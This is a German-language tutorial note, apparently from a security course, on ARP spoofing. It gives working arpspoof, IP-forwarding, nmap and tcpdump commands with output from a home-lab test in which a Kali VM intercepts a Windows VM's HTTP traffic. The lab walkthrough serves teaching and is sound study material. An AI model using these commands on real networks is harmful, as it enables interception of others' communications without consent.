 ```yaml
---
title: ARP Spoofing
---
```




![image-20210622162529432](fig/image-20210622162529432.png)



ARP ist nicht besonders sicher.

ARP Cache anzeigen

```sh
$ arp -a                    
fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
# -a BSD style output format
```

Dieses Kommando geht auch unter Windows (Ausgabe sieht anders aus).

ARP Cache Einträge können relativ einfach manipuliert werden.

exploit des ARP Protokolls:

Send 2 ARP Responses: eins zum Gateway und eins zum Victim.

![image-20210622164409828](fig/image-20210622164409828.png)

Hacker ist dann man in the middle

![image-20210622164606638](fig/image-20210622164606638.png)



## Kali Linux Tool für ARP Spoofing

Schickt einen ARP Response an das Opfer (`10.0.2.7`). Spooft die eigene MAC Adresse mit der IP des Gateways (`10.0.2.1`). 

```sh
$ arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
# arpspoof -i <interface> -t <target-victim-ip> <router-ip>
```

Das Programm wird nicht gleich beendet sondern schickt ständig ARP Responses

Herausfinden des router (=default gateway)

```sh
$ route -n
```

Schickt einen ARP Response an das Gateway. 

Folgendes gaukelt dem Gateway vor wir sind das Opfer:

```sh
$ arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

Nach diesen 2 `arpspoof` Aufrufen sind die ARP Caches vom Opfer und vom Gateway kompromitiert.

Ein Linux System schickt allerdings nicht von Haus aus IP Pakete die nicht an dieses selbst adressiert sind weiter (ist kein Router). Daher  ist noch "IP forwarding" notwendig um den Datentransfer zwischen Victim und Gateway über Hacker weiterzuleiten [[*](https://linuxconfig.org/how-to-turn-on-off-ip-forwarding-in-linux)]:

```sh
# auf Hacker
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Anmerkung: Im Video fehlt `net/` im Pfad.

### Test im Heimnetz:

Windows VM:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         e0-28-6d-7b-fa-91     dynamisch
  192.168.178.255       ff-ff-ff-ff-ff-ff     statisch
  224.0.0.22            01-00-5e-00-00-16     statisch
  224.0.0.251           01-00-5e-00-00-fb     statisch
  224.0.0.252           01-00-5e-00-00-fc     statisch
  239.255.255.250       01-00-5e-7f-ff-fa     statisch
  255.255.255.255       ff-ff-ff-ff-ff-ff     statisch
```

Kali VM:

```sh
$ ifconfig eth0          
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.178.81  netmask 255.255.255.0  broadcast 192.168.178.255
        inet6 2001:871:235:d5dd:36d:b0d0:4386:b64a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::20c:29ff:fe97:770a  prefixlen 64  scopeid 0x20<link>
        inet6 2001:871:235:d5dd:20c:29ff:fe97:770a  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:97:77:0a  txqueuelen 1000  (Ethernet)
        RX packets 17681  bytes 2353152 (2.2 MiB)
        RX errors 0  dropped 9740  overruns 0  frame 0
        TX packets 9303  bytes 980024 (957.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Victim (Windows): `192.168.178.75`

Gateway:  `192.168.178.1`

Hacker (Kali): `192.168.178.81 (00:0c:29:97:77:0a)`

Feststellen der MAC von Windows, z.B. durch einmal anpingen (löst ARP Request aus)

```sh
$ arp -a
fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
                                                                                                                                                                                 
$ ping 192.168.178.75
PING 192.168.178.75 (192.168.178.75) 56(84) bytes of data.
^C
--- 192.168.178.75 ping statistics ---
4 packets transmitted, 0 received, 100% packet loss, time 3066ms

$ arp -a                                                                                                                                                                   fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
DESKTOP-KB6QKG7.fritz.box (192.168.178.75) at 00:0c:29:d2:3a:db [ether] on eth0
```

Andere Möglichkeit wäre mit `nmap`:

```sh
$ nmap -sn -PR 192.168.178.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 11:29 EDT
Nmap scan report for DESKTOP-KB6QKG7.fritz.box (192.168.178.75)
Host is up (0.00054s latency).
MAC Address: 00:0C:29:D2:3A:DB (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

Und MAC Adresse des Gateways:

```sh
$ nmap -sn -PR 192.168.178.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 11:31 EDT
Nmap scan report for fritz.box (192.168.178.1)
Host is up (0.0020s latency).
MAC Address: E0:28:6D:7B:FA:91 (AVM Audiovisuelles Marketing und Computersysteme GmbH)
Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

Victim (Windows): `192.168.178.75 (00:0c:29:d2:3a:db)`

Gateway:  `192.168.178.1 (e0:28:6d:7b:fa:91)`

Hacker (Kali): `192.168.178.81 (00:0c:29:97:77:0a)`

```bash
# Victim zu Gateway --> Kali
$ arpspoof -i eth0 -t 192.168.178.75 192.168.178.1

# Gateway zu Victim --> Kali
$ arpspoof -i eth0 -t 192.168.178.1 192.168.178.75

# IP forwarding on
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```



Mit aktivierten Spoofing ARP cache des Victim:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         00-0c-29-97-77-0a     dynamisch
  192.168.178.81        00-0c-29-97-77-0a     dynamisch
```

Beide MAC Adressen sind von Hacker!

Ohne Spoofing:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         e0-28-6d-7b-fa-91     dynamisch
  192.168.178.81        00-0c-29-97-77-0a     dynamisch
```

 Ohne Spoofing: 

Auf Hacker (Kali)

```sh
tcpdump -nA port 80
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

```

Auf Victim (Windows) im Browser laden: `http://neverssl.com/`

Ergebnis: Ohne aktiviertes Spoofing sieht Hacker (Kali) nicht die Kommunikation

Mit Spoofing

Auf Victim (Windows) im Browser laden: `http://neverssl.com/` (leider ist Content in gzip Format)

Ergebnis (Ausschnitt einer https Kommunikation):

```
2:22:51.171629 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [S], seq 698903906, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
E..4..@.../J...K.....@.P).mb........................
12:22:51.171648 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [S], seq 698903906, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
E..4..@...0J...K.....@.P).mb........................
12:22:51.174195 IP 192.168.178.1.80 > 192.168.178.75.55104: Flags [S.], seq 958881370, ack 698903907, win 29200, options [mss 1460,nop,nop,sackOK,nop,wscale 6], length 0
E..4..@.@.U&.......K.P.@9'^Z).mc..r..6..............
12:22:51.174240 IP 192.168.178.1.80 > 192.168.178.75.55104: Flags [S.], seq 958881370, ack 698903907, win 29200, options [mss 1460,nop,nop,sackOK,nop,wscale 6], length 0
E..4..@.?.V&.......K.P.@9'^Z).mc..r..6..............
12:22:51.175387 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [.], ack 1, win 1026, length 0
E..(..@.../U...K.....@.P).mc9'^[P.............
12:22:51.175400 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [.], ack 1, win 1026, length 0
E..(..@...0U...K.....@.P).mc9'^[P.......
12:22:51.175419 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [P.], seq 1:240, ack 1, win 1026, length 239: HTTP: GET /wpad.dat HTTP/1.1
E.....@....e...K.....@.P).mc9'^[P...;...GET /wpad.dat HTTP/1.1
Host: wpad
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36 Edg/91.0.864.54
Accept-Encoding: gzip, deflate


12:22:51.175426 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [P.], seq 1:240, ack 1, win 1026, length 239: HTTP: GET /wpad.dat HTTP/1.1
E.....@.../e...K.....@.P).mc9'^[P...;...GET /wpad.dat HTTP/1.1

```

Die Kommunikation wird aufgezeichnet. Achtung auch auf gecachte Seiten.

Auch wenn die Daten verschlüsselt sind, sind manche Informationen trotzdem informativ und manipulierbar.



